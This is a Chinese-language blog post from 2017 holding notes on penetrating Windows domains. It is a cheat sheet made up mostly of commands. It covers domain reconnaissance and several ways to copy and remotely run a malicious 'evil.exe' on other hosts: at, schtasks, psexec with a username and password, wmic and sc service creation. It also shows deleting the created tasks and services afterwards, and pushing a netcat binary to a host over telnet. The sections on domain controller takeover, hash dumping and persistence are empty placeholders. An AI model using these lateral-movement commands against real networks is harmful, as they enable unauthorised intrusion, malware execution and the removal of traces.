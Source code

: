 ```yaml
---
typora-root-url: ../
layout:     post
title:      内网安全之域渗透
subtitle:   内网姿势系列  # 多坑待填
date:       2017-06-09 21:19 +0800
author:     gsfish
header-img: img/post-bg-hacker.jpg
tags:
 - 内网安全
 - 渗透
---
```



内网姿势系列：

* [内网安全之 ARP 欺骗](/2016/06/23/lan-attack-cookie-hijack/)


# 0x00 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x01 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x02 信息收集

```
net view /domain<:DOMAIN>
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x03 域内

## 域内运行命令

一、计划任务

1) AT

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe  # 上传恶意文件
at \\<HOST> 15:00 c:\windows\temp\evil.exe
```

2) SCHTASKS

```
schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s <HOST> /ru system
schtasks /run /tn boom /s <HOST>
schtasks /delete /tn boom /f /s <HOST>  # 清除任务
```

二、PsExec

1) 建立 IPC$ 连接后

```
psexec \\<HOST> -c evil.exe
```

2) 在 PsExec 的参数中指定账号密码

```
psexec.exe \\<HOST> –accepteula -u <USERNAME> -p <PASSWORD> -c evil.exe
```

三、WMIC 远程运行命令

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe
wmic /node:<HOST> /user:administrator /p <PASSWORD> process call create c:\windows\temp\evil.exe
```

四、SC 创建服务执行

1) 系统权限（其中 `boom` 为服务名）

```
sc \\<HOST> create boom binpath= c:\evil.exe
sc \\<HOST> start boom
sc \\<HOST> delete boom
```

2) 指定用户权限启动

```
sc \\<HOST> create boom binpath=c:\evil.exe obj=<DOMAIN>\administrator passwrod=<PASSWORD>
sc \\<HOST> start boom
```

## 域内的文件操作

一、利用 IPC$

```
net use \\<HOST>\IPC$
copy evil.exe \\<HOST>\c$\
```

二、利用 Telnet

服务端：

```
nc -lvp 23 < nc.exe
```

下载端：

```
telnet <HOST> -f c:\nc.exe
```

三、利用文件共享

```
net use x: \\<HOST>\<SHARE> <PASSWORD> /user:<DOMAIN>\<USERNAME>
```


# 0x04 拿下域控

// TODO


# 0x05 Hash dump

// TODO


# 0x06 权限维持

// TODO


# 参考资料

1. https://xianzhi.aliyun.com/forum/read/805.html
2. https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html
